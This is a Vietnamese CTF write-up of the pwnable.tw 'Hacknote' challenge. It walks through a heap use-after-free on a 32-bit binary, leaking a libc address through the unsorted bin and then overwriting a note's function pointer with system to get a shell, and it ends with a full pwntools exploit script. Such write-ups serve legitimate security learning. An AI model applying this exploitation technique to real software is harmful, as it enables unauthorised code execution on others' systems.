


# pwnable.tw - Hacknote

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
hacknote_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=a32de99816727a2ffa1fe5f4a324238b2d59a606, stripped

```
Đây là file 32-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi



# 2. Ý tưởng

Do ở đây có 3 options cho chúng ta lựa chọn đó là 

```
1. Add note
2. Delete note
3. Print note
```
Và ở hàm `create_note` có sử dụng `malloc`, hàm `delete_note` có sử dụng `free`

Nên mình đã nghĩ ngay đến `heap_exploitation`

# 3. Khai thác

- Đầu tiên ta sẽ tạo thử 2 note:
```
create(123,b"a"*123)
create(123,b"b"*123)
```
Check heap khi đó


 


Ok, nhìn vào fastbins chỉ có max size là `0x40` nên ta sẽ tạo và free 1 chunk nào đó với size > `0x40` là sẽ được đưa vào `unsortedbin` -> lợi dụng điều này leak được địa chỉ libc

- Kế đến leak địa chỉ libc 
```
free(0)
create(123,b"BBBB")
show(0)
p.recvuntil(b"BBBB")
leak = int.from_bytes(p.recv(4),"little") - 1771274
system = leak + 0x3a940
print("[+]Libc_base:    ", hex(leak))
print("[+]Libc_system:  ", hex(system))
```

Ở đây sau khi mình free chunk đầu tiên thì sẽ thấy 1 địa chỉ nào đó của libc xuất hiện 


Sau khi bạn đã sử dụng hàm free để giải phóng một đối tượng nào đó trên heap, địa chỉ của đối tượng đó không bị thay đổi và vẫn 

trỏ đến vị trí cũ. Điều này có thể xảy ra trong một số hệ thống quản lý bộ nhớ động, khi việc giải phóng bộ nhớ không thay đổi 

giá trị của con trỏ. Điều này có thể giải thích tại sao địa chỉ 0x8496010 vẫn trỏ vào vị trí 0xf7f537b0 sau khi bạn đã giải phóng.

Cùng nhìn vào chunk 0 khi ấy:


Vậy là địa chỉ của libc đã xuất hiện trên chunk 0

-> Ta sẽ relocate lại chunk 0 và ghi đè 4 byte đầu để leak được 4 bytes sau là địa chỉ libc

- Bước cuối cùng lợi dụng lỗi chiếm shell thôi

```
free(0)
free(1)

create(123, p32(system) + b";sh;")

show(0)
```

Mình để ý được 1 đoạn


Oke giờ ta sẽ chạy option show_note


Oke đó chính là 4 bytes đầu của chunk 1 còn 4 bytes sau đó chính là địa chỉ của chuỗi data mà nó in ra

-> 4 byte sau đó là tham số, 4 bytes đầu là địa chỉ call

Vậy chỉ cần over write 4 bytes đầu của chunk 0 đó bằng địa chỉ hàm `system` -> get_shell

Ta sẽ free 2 lần và create 1 chunk với 4 bytes đầu là địa chỉ `system` còn 4 bytes sau là `;sh;`(Do ta cần cô lập `sh` với các ký tự liền kề nó khi gọi `system`)

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("hacknote_patched")
libc = elf.libc

local = True 
if local:
    p = process("./hacknote_patched")
    gdb.attach(p,'''
    c
    ''')
else:
    p = remote('chall.pwnable.tw', 10102)

elf = context.binary = ELF('./hacknote_patched', checksec=False)

def create(size, data):
    p.sendlineafter(b"Your choice :", b"1")
    p.sendlineafter(b"Note size :", str(size))
    p.sendlineafter(b"Content :", data)
    print("\n[*]Create: Done")

def free(idx):
    p.sendlineafter(b"Your choice :", b"2")
    p.sendlineafter(b"Index :", str(idx))
    print("\n[*]Free: Done")

def show(idx):
    p.sendlineafter(b"Your choice :", b"3")
    p.sendlineafter(b"Index :", str(idx))

create(123,b"a"*123)
create(123,b"b"*123)
free(0)

create(123,b"BBBB")
show(0)
p.recvuntil(b"BBBB")
leak = int.from_bytes(p.recv(4),"little") - 1771274
system = leak + 0x3a940
print("[+]Libc_base:    ", hex(leak))
print("[+]Libc_system:  ", hex(system))

free(0)
free(1)

create(123, p32(system) + b";sh;")

show(0)
if local: 
    p.sendline(b"id")
else:
    p.sendline(b"cd home/hacknote")
    p.sendline(b"cat flag")

p.interactive()

```


